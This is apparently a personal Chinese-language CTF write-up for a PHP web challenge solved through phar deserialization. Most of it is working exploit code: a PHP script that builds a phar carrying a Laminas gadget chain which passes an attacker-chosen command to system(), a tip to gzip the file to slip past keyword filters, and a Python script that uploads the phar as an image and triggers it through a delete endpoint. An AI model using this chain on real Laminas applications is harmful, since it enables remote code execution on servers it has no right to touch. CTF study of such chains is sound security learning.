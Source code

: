 tags:: [[CTFWEB/PHP/Phar]]

- # 思路
	- phar反序列化，上传文件处上传phar，然后unlink触发
- # phar反序列化
	- 抄的大佬的Laminas RCE POP链，之后可以搜`xxx popchain`找相关框架的popchain
		- 话说phpggc真的是干啥啥不行，laminas的链只有删除的能用
		- https://xz.aliyun.com/t/8975#toc-10
		- ```php
		  <?php 
		  
		  namespace Laminas\View\Resolver{
		  	class TemplateMapResolver{
		  		protected $map = ["setBody"=>"system"];
		  	}
		  }
		  namespace Laminas\View\Renderer{
		  	class PhpRenderer{
		  		private $__helpers;
		  		function __construct(){
		  			$this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
		  		}
		  	}
		  }
		  
		  
		  namespace Laminas\Log\Writer{
		  	abstract class AbstractWriter{}
		  	
		  	class Mail extends AbstractWriter{
		  		protected $eventsToMail = ["sleep 10"];	//  cmd  cmd cmd
		  		protected $subjectPrependText = null;
		  		protected $mail;
		  		function __construct(){
		  			$this->mail = new \Laminas\View\Renderer\PhpRenderer();
		  		}
		  	}
		  }
		  
		  namespace Laminas\Log{
		  	class Logger{
		  		protected $writers;
		  		function __construct(){
		  			$this->writers = [new \Laminas\Log\Writer\Mail()];
		  		}
		  	}
		  }
		  
		  namespace{
		  $a = new \Laminas\Log\Logger();
		  $phar = new Phar("phar.phar"); //后缀名必须为 phar
		  $phar->startBuffering();
		  $phar->setStub("XXX<?php XXX __HALT_COMPILER(); ?>"); 
		  $phar->setMetadata($a); //将自定义的 meta-data 存入 manifest
		  $phar->addFromString("a", str_repeat('123',1000000)); //添加要压缩的文件
		  //签名自动计算
		  $phar->stopBuffering();}
		  ?>
		  
		  ```
	- 然后用`gzip phar.phar`压缩一下，绕过关键词检测
	- 最后触发
		- ```python
		  r = base_post(url + "/album/imgupload", files = {
		      "image-file": ("p.jpg", content)
		  })
		  path = r.text.partition("<!DOCTYPE html>")[0]
		  print(path)
		  r = base_post(url + "/album/imgdelete", data = {
		      "imgpath": f"phar://{path}/b.jpg"
		  })
		  print(r.text)
		  
		  ```
